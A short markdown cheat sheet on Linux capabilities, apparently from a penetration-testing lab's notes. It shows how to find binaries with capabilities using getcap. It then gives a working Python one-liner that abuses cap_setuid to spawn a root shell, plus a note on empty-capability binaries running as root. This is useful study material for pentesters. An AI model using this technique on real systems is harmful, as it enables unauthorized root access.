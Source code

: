 # Capabilities
Linux capabilities provide a subset of the available root privileges to a process. This effectively breaks up root privileges into smaller and distinctive units. Each of these units can then be independently be granted to processes. This way the full set of privileges is reduced and decreasing the risks of exploitation.
#### Detection
```bash
getcap -r / 2>/dev/null
```

#### Exploitation (Example with Python)
```bash
TCM@debian:~$ getcap -r / 2>/dev/null
/usr/bin/python2.6 = cap_setuid+ep
TCM@debian:~$ 

# Code to exploit
TCM@debian:~$ /usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

#### To have more details on how to exploit
- https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities

#### Note :
if you have a binary that:
- is not owned by root
- has no SUID/SGID bits set
- has empty capabilities set (e.g.: getcap myelf returns myelf =ep)

then that binary will run as root.